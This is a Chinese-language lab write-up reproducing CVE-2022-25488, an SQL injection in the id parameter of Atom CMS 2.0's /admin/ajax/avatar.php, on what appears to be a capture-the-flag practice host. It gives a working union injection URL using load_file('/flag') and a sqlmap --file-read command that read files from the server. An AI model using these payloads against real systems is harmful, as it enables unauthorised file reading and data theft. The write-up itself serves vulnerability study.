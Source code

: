 ## 1. 漏洞介绍
- tom CMS是一个内容管理系统。
- Atom CMS 2.0版本 存在安全漏洞，
- 该漏洞源于通过`/admin/ajax/avatar.[**php**](https://it.cha138.com/php/)`中的 `id 参数`发现 存在 SQL 注入漏洞。
- Atom CMS v2.0 通过`/admin/ajax/avatar.php`中的 `id 参数`被发现包含 SQL 注入漏洞。
## 2. 影响版本
Atom CMS 2.0版本
## 3. 漏洞复现
### 3.1. 手动注入
- 开启环境后，加上`/admin/ajax/avatar.php`直接访问发现页面空白的
```ad-tip
title:URL
collapse:open
 http://eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php
```
- 查看源码
![CVE-2022-25488-Picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-1.jpg)
- 由于 `id` 参数存在注入，所以添加 `id` 后观察是否有啥变化【变动如下】
![CVE-2022-25488-Picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-2.jpg)
- 尝试 `union` 注入测试
![CVE-2022-25488-Picture-3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-3.jpg)
- 既然存在 `union` 注入，进一步尝试 `load_file` 直接读取 `flag` 
```ad-tip
title: URL
collapse: open
view-source:eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=0 union select load_file('/flag')
```
- 结果
![CVE-2022-25488-Picture-4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-4.jpg)
### 3.2. sqlmap 注入
```ad-tip
title:sqlmap 注入命令
collapse:open
python sqlmap.py -u "http://eci-2ze22iukyy2k343joc6h.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" --file-read "/flag" --batch
```
![CVE-2022-25488-Picture-5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25488-Picture-5.jpg)